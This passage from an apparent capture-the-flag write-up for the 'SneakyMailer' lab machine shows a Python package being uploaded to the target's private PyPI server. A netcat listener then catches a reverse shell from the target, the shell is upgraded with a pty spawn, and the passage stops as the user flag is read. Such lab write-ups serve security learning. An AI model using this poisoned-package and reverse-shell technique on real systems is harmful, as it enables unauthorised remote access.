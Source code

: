 <h1>Executing the package</h1>  
<blockquote>Setting the path to current dir</blockquote>
<pre>developer@sneakymailer:/tmp/10.10.17.16:8080/pypi-pkg<span class="nv">$ HOME</span><span class="o">=</span><span class="sb">`</span><span class="nb">pwd</span><span class="sb">`</span>
</pre>  
<blockquote>Running setup.py</blockquote>
<pre>developer@sneakymailer:~<span class="nv">$ </span>python3 setup.py sdist register <span class="nt">-r</span> <span class="nb">local </span>upload <span class="nt">-r</span> <span class="nb">local</span>
&lt;n3 setup.py sdist register <span class="nt">-r</span> <span class="nb">local </span>upload <span class="nt">-r</span> <span class="nb">local
</span>running sdist
running egg_info
creating sample.egg-info
writing sample.egg-info/PKG-INFO
writing dependency_links to sample.egg-info/dependency_links.txt
writing requirements to sample.egg-info/requires.txt
writing top-level names to sample.egg-info/top_level.txt
writing manifest file <span class="s1">'sample.egg-info/SOURCES.txt'</span>
reading manifest file <span class="s1">'sample.egg-info/SOURCES.txt'</span>
writing manifest file <span class="s1">'sample.egg-info/SOURCES.txt'</span>
warning: sdist: standard file not found: should have one of README, README.rst, README.txt, README.md

running check
creating sample-1.2.0
creating sample-1.2.0/sample.egg-info
copying files to sample-1.2.0...
copying setup.py -&gt; sample-1.2.0
copying sample.egg-info/PKG-INFO -&gt; sample-1.2.0/sample.egg-info
copying sample.egg-info/SOURCES.txt -&gt; sample-1.2.0/sample.egg-info
copying sample.egg-info/dependency_links.txt -&gt; sample-1.2.0/sample.egg-info
copying sample.egg-info/requires.txt -&gt; sample-1.2.0/sample.egg-info
copying sample.egg-info/top_level.txt -&gt; sample-1.2.0/sample.egg-info
Writing sample-1.2.0/setup.cfg
creating dist
Creating <span class="nb">tar </span>archive
removing <span class="s1">'sample-1.2.0'</span> <span class="o">(</span>and everything under it<span class="o">)</span>
running register
Registering sample to http://pypi.sneakycorp.htb:8080
Server response <span class="o">(</span>200<span class="o">)</span>: OK
WARNING: Registering is deprecated, use twine to upload instead <span class="o">(</span>https://pypi.org/p/twine/<span class="o">)</span>
running upload
Submitting dist/sample-1.2.0.tar.gz to http://pypi.sneakycorp.htb:8080
Server response <span class="o">(</span>200<span class="o">)</span>: OK
WARNING: Uploading via this <span class="nb">command </span>is deprecated, use twine to upload instead <span class="o">(</span>https://pypi.org/p/twine/<span class="o">)</span>
</pre>  

<h1>User flag!.</h1>  
<pre>➜  sneakymailer rlwrap nc <span class="nt">-nlvp</span> 2345                                   
Ncat: Version 7.80 <span class="o">(</span> https://nmap.org/ncat <span class="o">)</span>
Ncat: Listening on :::2345
Ncat: Listening on 0.0.0.0:2345
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:45674.
python <span class="nt">-c</span> <span class="s2">"import pty;pty.spawn('/bin/bash')"</span>
low@sneakymailer:/<span class="nv">$ </span><span class="nb">whoami
whoami
</span>low
</pre>  
<pre>low@sneakymailer:~<span class="nv">$ </span><span class="nb">cat </span>user.txt